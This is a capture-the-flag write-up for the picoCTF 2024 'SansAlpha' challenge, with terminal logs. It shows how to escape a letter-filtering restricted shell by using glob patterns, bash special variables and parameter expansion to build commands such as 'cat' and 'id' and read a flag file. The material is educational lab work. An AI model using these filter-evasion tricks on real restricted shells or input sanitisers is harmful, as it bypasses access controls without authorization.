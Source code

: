 # SansAlpha

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [Learning Outcome from the SansAlpha Challenge](#learning-outcome)
- [References](#references)

## Challenge information
```
Level: Medium
Tags: General Skills, picoCTF 2024, bash, ssh, browser_webshell_solvable, shell_escape
Author: LOIC SHEMA / SYREAL

Description:
The Multiverse is within your grasp! Unfortunately, the server that contains the secrets of 
the multiverse is in a universe where keyboards only have numbers and (most) symbols.

ssh -p 61383 ctf-player@mimas.picoctf.net
Use password: 83dcefb7

Hints:
1. Where can you get some letters?
```
Challenge link: [https://play.picoctf.org/practice/challenge/436](https://play.picoctf.org/practice/challenge/436)

## Solution

### Connect to the site

We begin by connecting to the site
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/General_Skills/SansAlpha]
└─$ ssh -p 61383 ctf-player@mimas.picoctf.net
The authenticity of host '[mimas.picoctf.net]:61383 ([52.15.88.75]:61383)' can't be established.
ED25519 key fingerprint is SHA256:n/hDgUtuTTF85Id7k2fxmHvb6rrLrACHNM6xLZ46AqQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[mimas.picoctf.net]:61383' (ED25519) to the list of known hosts.
ctf-player@mimas.picoctf.net's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 6.5.0-1016-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

SansAlpha$ ls -la
SansAlpha: Unknown character detected
SansAlpha$ id
SansAlpha: Unknown character detected
SansAlpha$ 
```
Hhm, we have a weird non-standard shell.

### Trying to understand the shell

Now we try to understand the shell and do some basic enumeration.  
Maybe we can `quote` the commands?
```bash
SansAlpha$ "ls"
SansAlpha: Unknown character detected
SansAlpha$ 'ls'
SansAlpha: Unknown character detected
SansAlpha$ 
```
Nope.

Can we use [command substitution](https://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html)?
```
SansAlpha$ $(ls)
SansAlpha: Unknown character detected
SansAlpha$ `ls`
SansAlpha: Unknown character detected
SansAlpha$  
```
Not that either.

We can run `exit` though
```bash
SansAlpha$ exit
Connection to mimas.picoctf.net closed.

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/General_Skills/SansAlpha]
└─$ 
```
but that isn't very helpful.

Entering an empty command reveal the name of the running script (`/usr/local/sansalpha.py`) when erroring out
```bash
SansAlpha$ 
Traceback (most recent call last):
  File "/usr/local/sansalpha.py", line 12, in <module>
    if user_in[-1] != "\n":
IndexError: string index out of range
Connection to mimas.picoctf.net closed.
```

### Listing files

If we type `*` we will try to execute the first file/directory in the current directory with all the other files and directories as arguments
```bash
SansAlpha$ *
bash: blargh: command not found
```
Then we can use `$_` which is a [special variable/parameter in bash](https://www.gnu.org/software/bash/manual/html_node/Special-Parameters.html) that holds the last argument of the previous command
```bash
SansAlpha$ $_
bash: on-calastran.txt: command not found
```
So the last file in the current directory is `on-calastran.txt`.

If we run `*/*` we can see that `blargh` is a directory containing the `flag.txt` file
```bash
SansAlpha$ */*
bash: blargh/flag.txt: Permission denied
```

There is also an `on-alpha-9.txt` file in the `blargh` directory
```bash
SansAlpha$ */*; $_
bash: blargh/flag.txt: Permission denied
bash: blargh/on-alpha-9.txt: Permission denied
```

Another variable we can use is `$-` that holds the current set of options in your current shell
```bash
SansAlpha$ $-
bash: himBHs: command not found
```

### Extracting characters

Following the challenge hint we can extract characters from variables with [parameter expansion](https://www.gnu.org/software/bash/manual/html_node/Shell-Parameter-Expansion.html) on the form `${parameter:offset:length}`. Like this
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/General_Skills/SansAlpha]
└─$ CAJAC=abcdefghijklmnopqrstuvwxyz

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/General_Skills/SansAlpha]
└─$ echo ${CAJAC:0:3}
abc

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/General_Skills/SansAlpha]
└─$ echo ${CAJAC:0:5}
abcde

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/General_Skills/SansAlpha]
└─$ echo ${CAJAC:3:10}
defghijklm
```
It works more or less like slicing of strings in Python.

If we combine a lot of tricks, i.e. quoting, command substitution, parameter expansion and redirection of stderr to stdout, we can extract whatever characters we have from our shell variables, including any error messages.

For example, we can execute `id` from the `$-` variable
```bash
SansAlpha$ "$($- 2>&1)"; ${_:7:1}${_:20:1}
bash: bash: himBHs: command not found: command not found
uid=1000(ctf-player) gid=1000(ctf-player) groups=1000(ctf-player)
```

Or execute `cat *` by extracting characters from the `on-calastran.txt` file
```bash
SansAlpha$ *; ${_:3:2}${_:8:1} *
bash: blargh: command not found
cat: blargh: Is a directory
The Calastran multiverse is a complex and interconnected web of realities, each
with its own distinct characteristics and rules. At its core is the Nexus, a
cosmic hub that serves as the anchor point for countless universes and
dimensions. These realities are organized into Layers, with each Layer
representing a unique level of existence, ranging from the fundamental building
blocks of reality to the most intricate and fantastical realms. Travel between
Layers is facilitated by Quantum Bridges, mysterious conduits that allow
individuals to navigate the multiverse. Notably, the Calastran multiverse
exhibits a dynamic nature, with the Fabric of Reality continuously shifting and
evolving. Within this vast tapestry, there exist Nexus Nodes, focal points of
immense energy that hold sway over the destinies of entire universes. The
enigmatic Watchers, ancient beings attuned to the ebb and flow of the
multiverse, observe and influence key events. While the structure of Calastran
embraces diversity, it also poses challenges, as the delicate balance between
the Layers requires vigilance to prevent catastrophic breaches and maintain the
cosmic harmony.
```

### Get the flag

Finally, to get the flag we can issue `cat */????.???`
```bash
SansAlpha$ *; ${_:3:2}${_:8:1} */????.???
bash: blargh: command not found
return 0 picoCTF{<REDECTED>}
```
 ## Learning Outcome

- Gain experience with restricted shell environments.
- Understand command substitutions and variable manipulation.
- Learn parameter expansions for extracting information from shell variables.
- Reinforce skills in basic SSH commands and handling Linux permissions.
- Develop techniques for navigating restricted or non-standard shells.

For additional information, please see the references below.

## References

- [Command substitution - Bash Manual](https://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html)
- [Shell Parameter Expansion - Bash Manual](https://www.gnu.org/software/bash/manual/html_node/Shell-Parameter-Expansion.html)
- [Special parameters - Bash Manual](https://www.gnu.org/software/bash/manual/html_node/Special-Parameters.html)
- [Difference between $_ and $- variables in Linux](https://medium.com/@linuxschooltech/difference-between-and-variables-in-linux-cd9153b74751)
- [ssh - Linux manual page](https://man7.org/linux/man-pages/man1/ssh.1.html)
- [Wikipedia - Secure Shell](https://en.wikipedia.org/wiki/Secure_Shell)